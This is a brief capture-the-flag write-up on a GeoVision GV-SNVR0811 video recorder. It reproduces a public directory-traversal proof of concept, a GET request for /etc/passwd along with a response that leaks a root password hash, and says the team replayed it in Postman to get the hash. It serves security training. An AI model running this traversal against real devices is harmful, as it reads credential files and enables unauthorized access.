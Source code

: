 ```yaml
---
title: GeoVision Flag
description: GeoVision GV-SNVR0811 Flag
tags:
  - known exploit
  - easy
categories:
  - SOHOplessly Broken
draft: false  # change to false when time to publish
---
```


Doing a search of GeoVision GV-SNVR0811 + exploit in Google netted us with a ton of results with the following exploit.

[https://www.exploit-db.com/exploits/45065](https://www.exploit-db.com/exploits/45065)


# Exploit

```txt
# Exploit Title: GeoVision GV-SNVR0811 Directory Traversal
# Exploit Author: Berk Dusunur
# Google Dork: N/A
# Type: Hardware
# Date: 2018-07-21
# Vendor Homepage: http://www.geovision.com.tw/product/GV-SNVR0811
# Software Link: http://www.geovision.com.tw/product/GV-SNVR0811
# Affected Version: N/A
# Tested on: Parrot OS
# CVE : N/A


# Proof Of Concept

GET Request

GET ../../../../../../../../../../../../etc/passwd HTTP/1.1
Host: target
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:61.0)
Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1

Response

HTTP/1.1 200 OK
Server:Cross Web Server
Content-length: 59
Content-type: application/octet-stream

root:$1$$qRPK7m23GJusamGpoGLby/:0:0::/root:/bin/sh
```

## Using this exploit

We put this exploit into postman, with the header configuration. We ran the request, and got the root hash.
